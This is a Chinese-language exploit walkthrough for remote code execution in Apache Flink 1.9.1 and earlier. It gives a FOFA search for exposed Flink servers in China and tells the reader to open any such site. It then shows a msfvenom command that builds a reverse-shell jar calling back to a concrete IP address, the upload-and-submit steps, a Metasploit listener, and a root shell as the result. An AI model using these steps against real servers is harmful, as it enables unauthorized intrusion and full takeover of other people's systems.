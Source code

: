 # Apache Flink <= 1.9.1(最新版本) 远程代码执行

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-1.png)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

随便打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-2.png)

点击查看文件上传页面

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-3.png)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=39.99.135.123  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-4.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-6.png)

点击下 submit 

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-5.png)

反弹回来一个root 权限shell

![](http://peiqi-boke.oss-cn-zhangjiakou.aliyuncs.com/poc-fuxian/Apache%20Flink/flink-7.png)